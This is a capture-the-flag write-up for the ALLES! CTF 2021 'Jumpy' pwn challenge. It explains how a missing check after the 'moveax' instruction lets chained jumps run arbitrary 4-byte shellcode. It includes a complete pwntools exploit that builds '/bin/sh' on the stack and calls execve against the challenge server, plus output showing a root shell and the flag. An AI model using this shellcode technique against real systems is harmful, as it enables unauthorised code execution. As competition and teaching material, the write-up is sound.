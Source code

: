 ## Jumpy

> Points: 139
>
> Solves: 82

### Description:
![](./41zPfaL3WFL.jpg)

### Attachments:
```
jumpy  https://static.allesctf.net/ab1671dfdbc9923949d2dbc2bf1ff66006f86bb623cd9b2cbf94ce3f631dfbdd/jumpy
jumpy.c  https://static.allesctf.net/e8f31b0fc631eb709049df0d42491ddca1562a016474c10fdb03cf66f58113c8/jumpy.c
```

## Analysis:

The C language source code is provided below.
https://github.com/mito753/CTF/blob/main/2021/ALLES!_CTF_2021/Pwn_Jumpy/jumpy.c

When we execute the jumpy program, we can see that only 3 instructions can be specified.
supported insns:
- moveax $imm32
- jmp $imm8
- ret
- (EOF)

After the jmp instruction, it is checked if the next instruction is `moveax` or `jmp` or `ret`.

```c
const instruction_t INSNS[3] = {
    {"ret", OP_RET},
    {"jmp", OP_SHORT_JMP},
    {"moveax", OP_MOV_EAX_IMM32},
};

const instruction_t *isns_by_mnemonic(char *mnemonic)
{
    for (int i = 0; i < sizeof(INSNS) / sizeof(INSNS[0]); i++)
        if (!strcmp(mnemonic, INSNS[i].mnemonic))
            return &INSNS[i];
    return NULL;
}
```

## Solution:

Since there is no instruction check after `moveax`, I can execute any 4-byte instructions by made the following instruction sequence.
```
jmp 1
moveax 0xb8
moveax (Arbitrary 4-byte instructions)
```
```
             mov eax
          +-----------+
          |           |        
eb 01 b8 b8 00 00 00 b8 xx xx xx xx
|         ^
|         |
+---------+
   jmp 1

```

Since "/bin/sh" has 4 bytes or more and the mmap area (0x1337000000) cannot be written, the character string of "/bin/sh" was made on the stack.
```
mov bx, 0x68
shl rbx, 16
mov bx, 0x732f
shl rbx, 16
mov bx, 0x6e69
shl rbx, 16
mov bx, 0x622f
push rbx; mov rdi, rsp
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './jumpy'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b000000d136daaf77c18b37-jumpy.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
def Set_ins(data):
  s.sendlineafter("> ", "jmp 1")
  s.sendlineafter("> ", "moveax 184")
  s.sendlineafter("> ", "moveax " + str(u32(data)))

# rsi = 0; rdx = 0
Set_ins(asm('''xor rsi, rsi; nop'''))
Set_ins(asm('''push rsi; pop rdx; nop; nop'''))

# make /bin/sh in stack
Set_ins(asm('''mov bx, 0x68'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x732f'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x6e69'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x622f'''))
Set_ins(asm('''push rbx; mov rdi, rsp'''))

# rax = 0x3b
# syscall
Set_ins(asm('''xor rbx, rbx; nop'''))
Set_ins(asm('''add rbx, 0x3b'''))
Set_ins(asm('''push rbx; pop rax; syscall'''))

# Start shell
s.sendlineafter("> ", "a")

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_Jumpy$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_Jumpy/jumpy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 62372
[*] Switching to interactive mode

running your code...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 92
lrwxrwxrwx   1 root root     7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Sep  4 08:08 dev
drwxr-xr-x   1 root root  4096 Sep  4 08:08 etc
-rw-r--r--   1 root root   100 Aug 29 22:12 flag
drwxr-xr-x   2 root root  4096 Apr 15  2020 home
-rwxr-xr-x   1 root root 19768 Aug 29 22:12 jumpy
lrwxrwxrwx   1 root root     7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Aug 27 07:16 media
drwxr-xr-x   2 root root  4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root  4096 Aug 27 07:16 opt
dr-xr-xr-x 783 root root     0 Sep  4 08:08 proc
drwx------   2 root root  4096 Aug 27 07:27 root
drwxr-xr-x   5 root root  4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root     8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root     0 Sep  4 08:08 sys
drwxrwxrwt   2 root root  4096 Aug 27 07:27 tmp
drwxr-xr-x  13 root root  4096 Aug 27 07:16 usr
drwxr-xr-x  11 root root  4096 Aug 27 07:27 var
-rwxr-xr-x   1 root root 18744 Aug 29 22:12 ynetd
$ cat flag
ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
